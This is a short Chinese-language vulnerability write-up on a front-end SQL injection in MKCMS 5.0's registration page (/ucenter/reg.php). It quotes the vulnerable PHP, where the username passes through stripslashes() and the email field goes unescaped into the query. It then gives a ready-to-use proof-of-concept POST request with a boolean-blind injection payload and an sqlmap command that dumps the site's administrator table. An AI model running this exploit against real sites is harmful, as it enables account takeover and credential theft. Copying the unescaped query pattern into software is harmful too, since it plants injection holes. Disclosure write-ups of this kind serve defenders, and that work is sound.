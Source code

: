 #### 漏洞详情： ####
漏洞出现在/ucenter/reg.php第7-19行:

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username'");
    if(mysql_fetch_array($query)){
    echo '<script>alert("用户名已存在，请换个其他的用户名");window.history.go(-1);</script>';
    exit;
    }
    $result = mysql_query('select * from mkcms_user where u_email = "'.$_POST['email'].'"');
    if(mysql_fetch_array($result)){
    echo '<script>alert("邮箱已存在，请换个其他的邮箱");window.history.go(-1);</script>';
    exit;
    }

注册用户名时$username参数传到后台后经过stripslashes()函数处理，而stripslashes()函数的作用是删除addslashes() 函数添加的反斜杠。这里就很郁闷了，过滤反斜杠干嘛？

当前页面无输出点，只是返回一个注册/未注册（通过if判断true或者false)，可以使用布尔盲注来解决这个问题


POC：

    POST /ucenter/reg.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/ucenter/reg.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 52
    Connection: close
    Cookie: PHPSESSID=cb8e6ccde6cf9050972fa9461d606be3
    Upgrade-Insecure-Requests: 1
    
    name=test' AND 1=1 AND 'inject'='inject&email=sss%40qq.com&password=ssssss&submit=

![1](KCMS5.0前台SQL注入/20190223150855-e20a10fc-3739-1.jpg)

将POC中的数据包保存下来丢给sqlmap跑即可。

获取管理员账号：
    
    sqlmap -r inject.txt -D mkcms -T mkcms_manager --dump
![2](KCMS5.0前台SQL注入/20190223150915-edf05c14-3739-1.jpg)

### 参考链接 ###
https://xz.aliyun.com/t/4189